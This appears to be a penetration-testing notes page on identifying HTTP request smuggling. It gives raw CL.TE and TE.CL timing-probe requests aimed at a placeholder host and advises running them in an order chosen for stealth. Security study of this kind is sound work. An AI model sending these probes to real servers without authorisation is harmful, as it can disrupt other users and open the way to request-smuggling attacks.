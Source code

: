 # HTTP request smuggling

## HTTP request smuggling

<details><summary>General info</summary></details>

<details><summary>How do HTTP request smuggling vulnerabilities arise?</summary></details>

## <mark style="color:yellow;">Identification</mark>

{% hint style="warning" %}
**Important**: use HTTP/1.1 protocol, not HTTP/2. In burp change it using Inspector.
{% endhint %}

### <mark style="color:yellow;">**CL.TE**</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X
```

`Content-Length=4` -> `1` `\r` `\n` `A`

* The **front-end** server processes the initial chunk based on the Transfer-Encoding header, forwarding only part of the request while omitting the `X`.&#x20;
* After processing the first chunk, the **backend** server waits for the next one, causing a noticeable time delay.

### <mark style="color:yellow;">TE.CL</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```

`Content-Length=6` -> `0` `\r` `\n` `\r` `\n` `X`

The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.

{% hint style="warning" %}
**Warning**: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
{% endhint %}

